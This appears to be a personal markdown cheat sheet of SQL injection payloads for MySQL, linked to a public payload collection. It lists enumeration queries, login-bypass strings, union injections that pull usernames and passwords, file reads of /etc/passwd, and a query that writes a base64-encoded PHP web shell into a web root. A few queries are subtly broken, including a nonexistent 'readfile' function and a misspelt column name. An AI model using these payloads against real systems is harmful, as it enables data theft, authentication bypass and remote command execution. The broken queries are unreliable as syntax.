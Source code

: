 # SQLi
 - [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)


## Mysql
- [payload all the things mysql](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
### Fingerprint
```sql
select @@version
select sleep(3)
```
#### Enum dbs
```sql
select schema_name from information_schema.schemata
```
#### Enum tables
```sql
select table_name,table_schame from information_schema.tables where table_schema='zzz'
```
#### Enum columns
```sql
select column_name,table_name from information_schema.columns where table_name='zzz' and table_schema='zzz'
```
#### Enum current user
```sql
select user();
```
#### Enum current user privileges
```sql
select grantee,privilege_type FROM information_schema.user_privileges WHERE grantee="'<user>'@'<host>'"
```
#### Enum current user write file
Check if value is empty for access, whereas NULL means no access.
```sql
select variable_name,variable_value from information_schema.global_variables where variable_name='secure_file_priv'
```
### Read file
```sql
select readfile('/etc/passwd')
```
### Write file
```sql
select from_base64("PD9waHAgc3lzdGVtKCRfUkVRVUVTVFswXSk7ID8+") into outfile '/var/www/html/pwn.php'
```
### Login bypass
```sql
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
```
### Some union injection examples
```sql
' union select 1,username,password,4,5,6 from db1.users;-- -
```
```sql
' union select 1,user(),3,4,5,6;-- -
```
```sql
' union select 1,sleep(3),3,4,5,6;-- -
```
```sql
' union select 1,readfile("/etc/passwd"),3,4,5,6;-- -
```
